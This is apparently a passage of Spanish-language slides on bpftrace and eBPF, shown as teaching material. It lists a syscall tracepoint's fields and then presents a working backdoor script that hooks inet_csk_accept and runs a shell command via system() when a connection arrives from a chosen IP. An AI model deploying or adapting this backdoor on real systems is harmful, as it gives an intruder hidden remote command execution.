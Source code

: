 - Podemos conseguir la estructura que recibe la syscall
- Será útil para construir la estructura recibida por funciones de eBPF

```c
$ bpftrace -lv 'tracepoint:syscalls:sys_enter_openat'

tracepoint:syscalls:sys_enter_openat
    int __syscall_nr
    int dfd
    const char * filename
    int flags
    umode_t mode
```


---

# Backdoor con bpftrace

1. Asumiremos que un atacante **ya ha conseguido** acceso como **root** a un host
2. Se puede llegar a la máquina víctima desde la red directamente (no nos encontramos detrás de una VPN ni tenemos ninguna restricción)
3. Cuando llegue un **paquete malicioso**, queremos que se **ejecute un comando**

--- 

# Backdoor con bpftrace

```c
#!/usr/bin/env bpftrace

#include <net/sock.h>

kretprobe:inet_csk_accept
{
    $sk = (struct sock *) retval;

    if ( $sk->__sk_common.skc_family == AF_INET ) 
    {  
        printf("->%s: Checking RemoteAddr... %s (%u).\n", 
            func,
            ntop($sk->__sk_common.skc_daddr), 
            $sk->__sk_common.skc_daddr);
        
        if ($sk->__sk_common.skc_daddr == (uint32)$1)
        {
            system("whoami >> /proc/1/root/tmp/o");
            printf("->%s: Command executed.\n", func);
        }
    }
}
```

---